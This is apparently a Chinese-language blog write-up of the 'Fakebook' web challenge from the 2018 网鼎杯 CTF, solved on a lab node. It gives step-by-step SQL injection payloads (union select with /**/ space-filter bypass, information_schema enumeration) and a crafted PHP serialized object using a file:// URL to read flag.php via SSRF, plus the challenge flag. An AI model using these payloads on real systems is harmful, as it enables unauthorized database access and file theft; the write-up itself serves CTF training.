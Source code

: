 ```yaml
---
layout: post
title: 网鼎杯 2018 web wp
date: 2021-02-02 12:08 +0800
last_modified_at: 2021-02-02 12:08:00 +0800
tags: [CTF,Web,Write-up]
toc:  true
---
```

## 0x01 Fakebook

本题考点为SQL注入和SSRF，首先随意注册一个账户，进行登录后发现网址为

```
http://125afc2e-8d0c-4333-9d75-14d7fa2d63f1.node3.buuoj.cn/view.php?no=1
```

推断no=1为可注入点

进行注入后发现屏蔽空格，将空格换为`/**/`进行绕过屏蔽字，构造payload完成SQL注入获取内部的信息

Payload：

```
no=1 order by 4#  //发现order by 5时出现报错，推断有四列
no=0/**/union/**/select 1,2,3,4#  //通过报错页面得知2有回显
no=0/**/union/**/select 1,group_concat(table_name),3,4 from information_schema.tables where table_schema=database()#
                //爆表名发现有一个users表
no=0/**/union/**/select 1,group_concat(column_name),3,4 from information_schema.columns where table_name='users'#
                //爆字段名发现username、passwd和data，username和passwd没有发现flag，data中发现一个反序列化对象
no=0/**/union/**/select 1,group_concat(data),3,4 from users#  //爆出data的值
```

发现data值为

```
O:8:"UserInfo":3:{s:4:"name";s:3:"123";s:3:"age";i:1;s:4:"blog";s:9:"1.1.1.com";}
```

同时使用dirsearch扫描目录发现`user.php.bak`![](https://raw.githubusercontent.com/Heart-1ess/Heart_1ess-s-CTF-Note/master/assets/捕鱼.png)下载`user.php.bak`发现定义可反序列化类UserInfo

```
class UserInfo
{
    public $name = "";
    public $age = 0;
    public $blog = "";

    public function __construct($name, $age, $blog)
    {
        $this->name = $name;
        $this->age = (int)$age;
        $this->blog = $blog;
    }

    function get($url)
    {
        $ch = curl_init();

        curl_setopt($ch, CURLOPT_URL, $url);
        curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
        $output = curl_exec($ch);
        $httpCode = curl_getinfo($ch, CURLINFO_HTTP_CODE);
        if($httpCode == 404) {
            return 404;
        }
        curl_close($ch);

        return $output;
    }

    public function getBlogContents ()
    {
        return $this->get($this->blog);
    }

    public function isValidBlog ()
    {
        $blog = $this->blog;
        return preg_match("/^(((http(s?))\:\/\/)?)([0-9a-zA-Z\-]+\.)+[a-zA-Z]{2,6}(\:[0-9]+)?(\/\S*)?$/i", $blog);
    }

}
```

发现\`function get函数中存在exec执行函数，但安全，因而将重点转向于curl\_getinfo\(\)函数。

发现可以采用file://伪协议进行文件读取，并且已知flag.php和view.php均位于/var/www/html/目录下，故构造payload：

```
$a = new UserInfo('1',2,'file:///var/www/html/flag.php');
```

获取反序列化字符串，得到

```
O:8:"UserInfo":3:{s:4:"name";s:1:"1";s:3:"age";i:2;s:4:"blog";s:29:"file:///var/www/html/flag.php";}
```

将反序列化字符串放入url中构造payload：

```
no=0/**/union/**/select 1,2,3,'O:8:"UserInfo":3:{s:4:"name";s:1:"1";s:3:"age";i:2;s:4:"blog";s:29:"file:///var/www/html/flag.php";}'#
```

得到源码中的flag

```
flag{2a8d59d8-c775-4a98-b135-c51947d2daf4}
```



